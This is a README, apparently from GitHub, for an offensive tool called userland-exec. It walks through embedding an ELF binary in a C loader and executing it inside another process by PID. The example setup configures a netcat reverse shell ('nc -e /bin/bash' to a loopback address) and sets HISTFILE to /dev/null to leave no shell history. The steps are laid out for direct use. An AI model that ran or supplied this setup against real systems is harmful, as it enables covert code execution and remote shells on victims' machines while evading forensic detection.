 # userland exec
userland exec

## Usage
1. download the latest [userland-exec](https://github.com/shuichiro-endo/userland-exec)
```
git clone https://github.com/shuichiro-endo/userland-exec.git
cd userland-exec
```
2. output an elf file you want to run to elffile.h file (e.g. /usr/bin/nc)
```
xxd -i /usr/bin/nc > elffile.h
```
3. get a variable name from elffile.h file (e.g. unsigned char _usr_bin_nc[])
```
head -1 elffile.h
```
4. modify ulexec.c file (exec_file, env_string, env_count, argv_string and argv_count)
```
// head -1 elffile.h
// e.g. unsigned char _usr_bin_nc[] = {
unsigned char *exec_file = _usr_bin_nc;

char *env_string[] = {
"PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:", 
"SHELL=/bin/bash", 
"HISTFILE=/dev/null", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int env_count = 3;

// e.g. nc -e /bin/bash 127.0.0.1 1234
char *argv_string[] = {
"-e", 
"/bin/bash", 
"127.0.0.1", 
"1234", 
"\0", 
"\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0", "\0"};	// do not delete

int argv_count = 5;	// e.g. exec file name (1) + argv_string (4) = 5
```
5. build
```
gcc ulexec.c -o ulexec
```
6. run ulexec
```
userland exec
usage         : ./ulexec -p target_pid
example       : ./ulexec -p 12345
```

## License
This project is licensed under the MIT License.

See the [LICENSE](https://github.com/shuichiro-endo/userland-exec/blob/main/LICENSE) file for details.



